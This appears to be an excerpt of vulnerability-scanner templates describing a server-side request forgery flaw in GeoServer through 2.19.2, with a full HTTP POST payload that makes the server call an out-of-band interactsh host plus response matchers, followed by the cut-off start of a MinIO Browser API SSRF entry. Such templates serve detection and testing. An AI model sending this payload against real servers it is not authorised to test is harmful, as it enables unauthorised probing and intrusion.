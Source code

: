 ## Description

- GeoServer through 2.18.5 and 2.19.x through 2.19.2 allows server-side request forgery via the option for setting a proxy host.
- severity - high
- tags - cve,cve2021,ssrf,geoserver

## Requests

### Step - 1

```
POST /geoserver/TestWfsPost HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

form_hf_0=&url=http://{{interactsh-url}}/geoserver/../&body=&username=&password=

```

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

**Type - word**

- words
  1. \<html>\<head>\</head>\<body>

**Type - status**

- status
  1. 200

---

# MinIO Browser API - Server-Side Request Forgery

## Description

- MinIO Browser API before version RELEASE.2021-01-30T00-20-58Z contains a server-side request forgery vulnerability.
- severity - high
- tags - cve,cve2021,minio,ssrf,oast

## Requests

### Step - 1
